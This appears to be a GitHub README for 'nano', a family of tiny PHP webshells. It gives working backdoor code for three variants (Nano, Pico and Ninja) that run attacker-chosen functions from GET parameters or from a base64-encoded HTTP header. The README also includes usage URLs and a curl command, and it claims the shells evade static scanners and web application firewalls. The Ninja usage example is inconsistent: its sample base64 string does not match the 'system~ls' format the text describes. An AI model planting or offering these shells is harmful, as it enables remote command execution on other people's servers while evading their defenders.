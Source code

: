 # nano
Nano is a family of PHP webshells which are code golfed to be extremely stealthy and efficient.\
Put it on watch maybe, I will continue to upload more webshells in here.

**Note:** You may need to tweak some parts of the code if it doesn't work out for your.\
For example, if short tags are disabled, you will need to replace <? with <?php.

### Nano
```php
<?$x=$_GET;@$x[p]=='_'?@$x[f]($x[c]):1;
```
#### Features
- 39 bytes in size
- Can't be detected by static code scanners
- Supports authentication
- No warnings on this fork version!

#### Usage
`http://example.com/nano.php?f=function&c=command&p=password`

`f` is for function\
`c` is for command\
`p` is for password

For example, the code below will execute the `ls` command:

`http://example.com/nano.php?f=system&c=ls&p=password`

### Pico
```php
<?$x=$_GET;@$x[f]($x[c]);
```
#### Features
- 25 bytes in size
- Can't be detected by static code scanners
- No warnings on server logs!

#### Usage
`http://example.com/nano.php?f=function&c=command`

`f` is for function\
`c` is for command

For example, the code below will execute the `ls` command:

`http://example.com/nano.php?f=system&c=ls`

### Ninja
```php
<?$x=explode('~',strrev('edoced_46esab')(getallheaders()['x']));@$x[0]($x[1]);
```
#### Features
- 93 bytes in size
- Fully Undetectable

#### Notes
- The version that calls `base64_decode` directly isnt great because its blacklisted on many wafs\
So i changed that for a reverse call to create the base64 decode call or rot13.\
- The substract string call was removed because it wasnt adding any special obfucation on the base64.

#### Usage
This one a bit complex.\
Lets say you want to run `system(ls)` so write it as `system~ls` and then base64 encode it i.e. `c3lzdGVtKGxzKQ==`\
Now open your terminal and type the following command\
`curl -H 'x: c3lzdGVtKGxzKQ==' http://example.com/backdoored.php`\
~~Too much work? You can use the [handler](https://github.com/UltimateHackers/nano/blob/master/handler.py) instead.~~
The handler needs some redesigning which is not that important right now. 

![handler](https://i.imgur.com/hkAHGwH.png)

#### Everything Else
This is my first php thingy so if there's way to do what I did in a better way please let me know or open a pull request.\
The nano project is licensed under **MIT license** which basically means you have to give me credit if you want to redistribute or modify it.
